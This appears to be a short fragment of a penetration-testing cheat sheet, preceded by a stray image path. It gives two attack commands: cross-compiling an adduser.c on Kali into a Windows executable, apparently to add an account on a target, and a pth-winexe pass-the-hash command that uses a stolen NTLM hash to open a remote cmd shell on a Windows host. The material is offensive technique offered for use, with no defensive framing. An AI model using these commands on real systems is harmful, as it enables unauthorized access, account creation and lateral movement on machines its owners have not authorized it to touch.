 ### Compile adduser.c on kali
```
sudo i686-w64-mingw32-gcc adduser.c -o adduser.exe
```


### Pass the Hash
Use the NTLM hash to authenticate 
```
pth-winexe -U user%HASH:HASH //IPADDRESS cmd
```
